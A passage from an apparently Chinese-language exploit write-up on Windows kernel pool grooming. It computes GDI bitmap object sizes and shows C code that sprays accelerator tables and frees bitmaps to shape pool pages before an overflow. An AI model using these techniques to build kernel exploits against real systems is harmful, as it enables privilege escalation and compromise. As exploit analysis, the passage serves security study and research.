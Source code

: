 ![]({{site.baseurl}}/images/2018-10-17/bmp_size.png)

发现确实和预料的一样，bitmap 对象大小为 0xf80 字节，现在用参数来算一下

```c
nWidth = 1670
nHeight = 2
nBitCount = 8

(1670*2*8)/8 bits = 0xd0c
```

pool header 为 0x10 字节，0xd0c 对齐一下为 0xd08，那么得到这样一个公式：

```
SURFACE64 + STUFF = 0xf80 - 0x10 - 0xd08 = 0x268
```

换一组参数测试一下这个公式，把代码改成 CreateBitmap(820, 2, 8)，计算一下这个的 bitmap 大小：

```
size = (820*2*8)/8 + 0x268 + 0x10 = 0x8e0
```

然后再 windbg 中查看

![]({{site.baseurl}}/images/2018-10-17/check_bmp_size.png)

发现确实如我们所计算的那样。

然后是继续分配了 7000 次 accelerator table 对象，每个大小为 0x40 字节，每次分配两个也就是 0x80 字节大小，
这样就填补了每页内存页剩下的空间 (0xf80 + 0x80 = 0x1000)。

```c
	// Allocating 7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
	HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	for (INT i = 0; i < 7000; i++) {
			hAccel = CreateAcceleratorTableA(lpAccel, 1);
			hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
			pAccels[i] = hAccel;
			pAccels2[i] = hAccel2;
	}
```
接着释放了之前分配的 bitmap 对象，这样内存页的开始处就空出来 0xf80 字节的空间。

```c
	// Delete the allocated bitmaps to free space at beginning of pages
	for (int k = 0; k < 5000; k++) {
			DeleteObject(bitmaps[k]);
	}
```

然后分配了 5000 个大小为 0xbc0 字节的对象，这个大小非常关键，因为如果 bitmap 对象直接被放到受到攻击的对象旁边的话，
溢出不会覆盖到 bitmap 对象关键的成员变量（后面会详细讲）。此外，作者通过反复试验找到了 `CreateEllipticRgn`
函数分配的对象的大小于提供的函数参数之间的关系，我们就暂时知道这样的方式就行。
